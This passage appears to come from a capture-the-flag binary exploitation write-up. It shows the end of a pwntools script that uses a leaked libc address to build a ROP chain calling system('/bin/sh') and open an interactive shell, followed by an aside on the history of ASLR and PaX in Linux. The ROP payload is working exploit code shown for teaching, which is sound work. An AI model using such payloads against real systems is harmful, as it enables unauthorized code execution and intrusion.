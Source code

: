 ```py
info(f"libc addr: {hex(libc.address)}")
info(f"bin sh: {hex(bin_sh)}")
info(f"system: {hex(libc.sym['system'])}")

# --- Part 2: We gotta beat this bitch again >.>

rop2 = ROP(libc) # Generate a rop chain using the libc we leaked
rop2.system(bin_sh) # Call system('/bin/sh')
rop2.exit()

payload2 = flat(
    b"D" * offset,
    rop2.chain()
)
info("Round 2 FIGHT")
create(b"A"*(0x30-1))
power_up(b"A")
# Make our second rop chain
info("Sending payload here")
power_up(payload2)
beat()
beat()
info("Sending payload3 here")

p.interactive()
# Tick 197 Certified ;)
```

# Useless Stuff

Incoming: Me losing my mind because the history books are wrong. Plz skip this section if you don't care about the history of the introduction of ASLR because I spent a full day searching and going crazy.

So... _small_ ass aside, trying to google for when ASLR was introduced into the Linux kernel is ridiculous. The only mention I ever found references a Linux team called PaX that **_supposedly_** added a patch for address space layout randomization. However the ONLY thing I could find was this Linux mailing list thread made by Arjan van de Ven in **2005** [which is here](https://lore.kernel.org/lkml/20050127101117.GA9760@infradead.org/).

However, I wasn't satisfied because in that exact same email, it was mentioned that the 64Kb randomization was to replace _existing_ randomization that was there from something else. This search led me to the [PaX site](https://web.archive.org/web/20010516021740/http://pageexec.virtualave.net:80/), which in 2001 has various mentions of patches, but looking through them they seemed to just be the foundations for [Non Executable](https://web.archive.org/web/20010605174913/http://pageexec.virtualave.net/pax-linux-2.4.2.patch) (NX) bits.

The ONLY thing I ever found was a linux patch which was [ADDED in 2002](https://web.archive.org/web/20030212084923/http://pageexec.virtualave.net/pax-linux-2.4.20.patch). And this is backed up by a [Phrack magazine](https://phrack.org/issues/59/9) article on this which was released in 2002 about how to bypass ASLR protection that ALSO mentioned that a **_COUPLE_** months prior the PaX team had released a thing called `et_dyn.zip` (can't find its existance at all fml), and **AFTERWARDS** released a patch introducing it into the kernel. Anyways Google's wrong, I can breathe now.
